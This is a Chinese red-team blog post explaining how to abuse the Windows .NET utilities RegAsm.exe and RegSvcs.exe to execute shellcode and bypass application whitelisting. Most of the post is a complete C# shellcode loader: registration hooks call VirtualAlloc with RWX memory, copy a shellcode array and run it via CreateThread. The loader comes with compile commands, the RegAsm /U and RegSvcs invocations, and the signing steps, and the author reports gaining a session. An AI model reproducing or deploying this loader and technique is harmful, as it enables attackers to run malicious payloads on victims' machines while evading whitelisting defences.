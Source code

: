 ```yaml
---
layout:     post
title:    白名单-RegAsm/RegSvcs的利用
subtitle:   RegAsm/RegSvcs的利用
date:       2020-02-03
author:     hmoytx
header-img: img/bg_02.jpg
catalog: true
tags:
    - 白名单
    - 红队
    - 内网渗透
---
```

# 白名单-RegAsm/RegSvcs的利用

## 简介

RegAsm读取程序集中的元数据，并将所需项添加到注册表中。注册表允许 COM 客户端以透明方式创建 .NET Framework 类。 在注册一个类之后，任何 COM 客户端都可以像使用 COM 类一样使用它。 类仅在安装程序集时注册一次。 只有实际注册程序集中的类实例之后才能从 COM 中创建它们。  
.NET 服务安装工具RegSvcs执行下列操作：
- 加载并注册程序集。
- 生成、注册类型库并将其安装到指定的 COM+ 应用程序中。
- 配置以编程方式添加到类的服务。

因为同样是没有添加到PATH中，需要给上绝对路径。  
win7为例：***C:\Windows\Microsoft.NET\Framework\v4.0.30319***  
具体的一些介绍信息可以查看官方手册。  
[https://docs.microsoft.com/zh-cn/dotnet/framework/tools/regasm-exe-assembly-registration-tool](https://docs.microsoft.com/zh-cn/dotnet/framework/tools/regasm-exe-assembly-registration-tool)   
[https://docs.microsoft.com/zh-cn/dotnet/framework/tools/regsvcs-exe-net-services-installation-tool](https://docs.microsoft.com/zh-cn/dotnet/framework/tools/regsvcs-exe-net-services-installation-tool)   

### RegAsm测试
跟前面的InstallUtil有点像，只是文件代码需要改下，且要编译成dll文件。  
```
using System;
using System.IO;
using System.Collections.Generic;
using System.Text;
using System.Threading.Tasks;
using System.EnterpriseService;
using System.Runtime.InteropServices;


namespace sdwjSJdn
{

    public class sSDMWo:ServicedComponent
    {
        public  void SDnqsdS()
        {
            Console.WriteLine("test");
        }
        [ComRegisterFunction]
        public static void RegisterClass(string SDJLNWdws)
        {
        shellcodeload.MsdwsdSAsdw();
        }
        [ComUnregisterFunction]
        public static void UnRegisterClass(string SDJLNWdws)
        {
        shellcodeload.MsdwsdSAsdw();
        }
    public class shellcodeload
    {
        public static void MsdwsdSAsdw()
        {
            byte[] shellcode = new byte[] { .......... }; //添加要加载的shellcode
            
            UInt32 funcAddr = VirtualAlloc(0, (UInt32)shellcode.Length, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
            Marshal.Copy(shellcode, 0, (IntPtr)(funcAddr), shellcode.Length);
            IntPtr hThread = IntPtr.Zero;
            UInt32 threadId = 0;

            // Prepare data
            IntPtr pinfo = IntPtr.Zero;

            // Invoke the shellcode
            hThread = CreateThread(0, 0, funcAddr, pinfo, 0, ref threadId);
            WaitForSingleObject(hThread, 0xFFFFFFFF);
            return;
        }

        private static UInt32 MEM_COMMIT = 0x1000;
        private static UInt32 PAGE_EXECUTE_READWRITE = 0x40;

        [DllImport("kernel32")]
        private static extern UInt32 VirtualAlloc(
            UInt32 lpStartAddr,
            UInt32 size,
            UInt32 flAllocationType,
            UInt32 flProtect
        );

        [DllImport("kernel32")]
        private static extern IntPtr CreateThread(
            UInt32 lpThreadAttributes,
            UInt32 dwStackSize,
            UInt32 lpStartAddress,
            IntPtr param,
            UInt32 dwCreationFlags,
            ref UInt32 lpThreadId
        );

        [DllImport("kernel32")]
        private static extern UInt32 WaitForSingleObject(
            IntPtr hHandle,
            UInt32 dwMilliseconds
        );
    }
}
```
然后直接编译：  
```
csc.exe /target:library /out:test.dll 1.cs
```
建议将得到的dll放到.net目录下，然后执行。  
```
RegAsm.exe /U test.dll
```
可以看到上线了。  
![200203_1](/img/200203_regasm.png)  


### RegSvcs测试
代码还是用上面的代码，但是两个问题，一个是要给dll签名，一个是要修改一个配置。  
创建强名称密钥文件：  
打开开发人员命令提示。  
像下面一样创建密钥文件。  
![200203_2](/img/200203_snk.png)  
然后在项目属性中添加这个文件。  
![200203_3](/img/200203_addsnk.png)  
这样编译还是不能运行，会报类错误的。  
修改项目中的AssemblyInfo.cs文件，将[assembly: ComVisible(false)]改为true。  
![200203_4](/img/200203_asminfo.png)  
然后编译成dll文件。  
放到.net目录下执行。  
```
RegSvcs.exe test.dll
```
![200203_5](/img/200203_regsvcs.png)  



### 参考
[https://micro8.github.io/Micro8-HTML/Chapter1/71-80/73_%E5%9F%BA%E4%BA%8E%E7%99%BD%E5%90%8D%E5%8D%95Regasm.exe%E6%89%A7%E8%A1%8Cpayload%E7%AC%AC%E4%B8%89%E5%AD%A3.html](https://micro8.github.io/Micro8-HTML/Chapter1/71-80/73_%E5%9F%BA%E4%BA%8E%E7%99%BD%E5%90%8D%E5%8D%95Regasm.exe%E6%89%A7%E8%A1%8Cpayload%E7%AC%AC%E4%B8%89%E5%AD%A3.html)  
[https://micro8.github.io/Micro8-HTML/Chapter1/71-80/74_%E5%9F%BA%E4%BA%8E%E7%99%BD%E5%90%8D%E5%8D%95regsvcs.exe%E6%89%A7%E8%A1%8Cpayload%E7%AC%AC%E5%9B%9B%E5%AD%A3.html](https://micro8.github.io/Micro8-HTML/Chapter1/71-80/74_%E5%9F%BA%E4%BA%8E%E7%99%BD%E5%90%8D%E5%8D%95regsvcs.exe%E6%89%A7%E8%A1%8Cpayload%E7%AC%AC%E5%9B%9B%E5%AD%A3.html)  




